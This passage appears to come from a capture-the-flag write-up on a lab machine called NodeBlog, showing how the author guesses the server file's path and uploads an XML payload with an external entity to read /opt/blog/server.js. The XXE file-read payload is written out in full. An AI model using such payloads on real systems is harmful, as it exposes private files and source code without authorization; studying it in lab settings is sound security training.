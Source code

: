 From the error I got, we can see that the blog application is located at `/opt/blog`. Since this is a Node.js application, most developers will name their main server file as any one of the following:

- index.js
- server.js

I tried to look out for the `server.js` in the `/opt/blog` location by uploading the following XML file:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///opt/blog/server.js"> ]>

<post>
	<title>xml payload to extract the contents of /opt/blog/server.js file</title>
	<description>&xxe;</description>
	<markdown>Example Markdown</markdown>
</post>
```

And we got the contents of the server.js file.

![Untitled 18.png](NodeBlog/assets/Untitled%2018.png)

